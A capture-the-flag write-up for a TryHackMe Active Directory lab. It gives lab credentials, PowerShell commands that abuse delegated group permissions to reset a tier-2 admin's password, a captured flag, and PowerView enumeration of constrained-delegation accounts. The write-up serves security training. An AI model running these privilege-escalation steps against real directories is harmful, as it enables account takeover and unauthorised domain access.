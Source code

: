 ![Exploiting AD](https://assets.tryhackme.com/room-banners/attacking-ad.png)
## Exploiting Active Directory

### Exploiting Permission Delegation 

``` Your credentials have been generated: Username: laura.wood Password: C6j4BhcW ```


Bloodhound shows misconfiguration in AD allowing Domain Users to add themselves to IT Support, which in turn delegates permission to reset a t2 admin password

![bloodhound](/TryHackMe/Exploiting%20Active%20Directory/Exploiting%20AD%20Task%202.png)

```posh
#Add our user to IT Support
Add-ADGroupMember "IT Support" -Members "laura.wood"
```

```posh
#Verify user has been successfully added
Get-ADGroupMember -Identity "IT Support" 
```

Run ``` gpupdate /force ```  then reconnect to the remote session to ensure permissions propogate

```posh
#Reset password for a user in 
$Password = ConvertTo-SecureString "Password1" -AsPlainText -Force
Set-ADAccountPassword -Identity "t2_caroline.dawson" -Reset -NewPassword $Password
```

RDP from AttackBox to locate the flag

``` THM{Permission.Delegation.FTW!} ```

### Exploiting Kerberos Delegation

```console
PS C:\Users\laura.wood> Import-Module C:\Tools\PowerView.ps1 
PS C:\Users\laura.wood> Get-NetUser -TrustedToAuth | select name, msds-allowedtodelegateto 

name       msds-allowedtodelegateto
----       ------------------------
IIS Server {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1, http/THMSERVER1.za.tryhackme.loc, http/THMSERVER1} 
```
